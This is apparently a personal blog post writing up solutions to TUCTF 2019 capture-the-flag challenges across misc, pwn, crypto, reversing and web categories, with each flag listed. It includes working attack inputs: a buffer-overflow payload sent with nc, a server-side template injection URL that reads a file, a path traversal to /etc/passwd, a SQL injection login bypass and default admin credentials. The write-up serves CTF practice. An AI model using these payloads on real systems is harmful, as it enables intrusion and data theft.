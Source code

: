 ```yaml
---
layout: post
title:  "TUCTF 2019"
excerpt: CTF competition
tags: [ctf, challenges]
---
```



[https://tuctf.com/](https://tuctf.com/)
<br>
## completed challenges
**welcome**<br>
*welcome*<br>
<pre>just needed to '.validate' on discord</pre><br>
![welcome](../ctfs/tuctf2019/welcome.png)<br>
<pre>TUCTF{W3lc0m3_70_TUCTF._H4v3_fun}</pre><br>

**misc**<br>
*red yarn*<br>
<pre>strings DEBUG.COM | grep TUCTF</pre><br>
![red yarn](../ctfs/tuctf2019/misc1.png)<br>
<pre>TUCTF{D0NT_F0RG3T_TH3_B4S1CS!}</pre><br>

misc - super secret
binwalk -e document.odt
cat _document.odt.extracted/Basic/Standard/flag.xml
TUCTF{ST0P_TRUST1NG_M4CR0S_FR0M_4N_UNKN0WN_S0URC3}

misc - onions
opened with 7zip 
several layers deep and found flag
TUCTF{F1L3S4R3L1K30N10NSTH3YH4V3L4Y3RS}
**pwn**<br>
pwn - runme
strings runme | grep TUCTF
TUCTF{7h4nk5_f0r_c0mp371n6._H4v3_fun,_4nd_600d_luck}

pwn - thefirst
objdump -d ./thefirst
	080491f6 <printFlag>
python -c 'print "AAAAAAAAAAAABBBBCCCCDDDD"+ "\xf6\x91\x04\x08"' | nc chal.tuctf.com 30508
TUCTF{0n3_d0wn..._50_m4ny_70_60}
**crypto**<br>
crypto - common
https://medium.com/bugbountywriteup/rsa-attacks-common-modulus-7bdb34f331a5
TUCTF{Y0U_SH0ULDNT_R3US3_TH3_M0DULUS}

crypto - sonic
rot-cipher
TUCTF{W04H_DUD3_S0_F4ST_S0N1C_4PPR0V3S}

crypto - warren 
TUCTF{th4nks_f0r_d1n1ng_4641n_4t_th3_W4rr3n_buff3t}
**mega**<br>
mega - coffee
BREW /teapot
HTCPCP/1.0 418 I'm a teapot. Go to /broken.zip
https://tools.ietf.org/html/rfc2324
TUCTF{d0_y0u_cr4v3_th3_418}

mega - broken
strings broken.img | grep TUCTF
TUCTF{D1S4ST3R_R3C0V3RY}
**reversing**<br>
reversing - faker
gdb -q ./faker
	jump thisone
TUCTF{7h3r35_4lw4y5_m0r3_70_4_b1n4ry_7h4n_m3375_7h3_d3bu663r}
**web**<br>
web - open door
source code found flag
TUCTF{f1r5t_fl46_345135t_fl46} 

web - test test test
looked in imgs directory
todo.txt and flag.php files
pause requests on burp when selecting flag.php to reveal flag
TUCTF{d0nt_l34v3_y0ur_d1r3ct0ry_h4n61n6}
 
web - router where art thou
0.html - started off here with a form
1.html - tried this file and sonicwall login revealed
2.html - tried this file and palo login revealed
	admin:admin worked
TUCTF{y0u_f0und_th3_fun_r0ut3r_d3f4ult5}

web - and now for something completely different
found [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#template-format)
http://chal.tuctf.com:30007/welcome/%7B%7B%20''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read()%20%7D%7D
TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465}

web - cute animals
lfi found on portal.php
/./././././././././././etc/passwd
TUCTF{m0r3_cut3_4n1m415_c4n_b3_f0und_4t_https://bit.ly/1HU2m5Q}

web - robots
/robots.txt but need
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
TUCTF{463nt_6006l3_r3p0rt1n6_4_r0b0t}

web - login to access
sql injection revealed actual login login.html 
' or '1' = '1  
but login.php.bak file was found to reveal flag
TUCTF{b4ckup5_0f_php?_1t5_m0r3_c0mm0n_th4n_y0u_th1nk} 
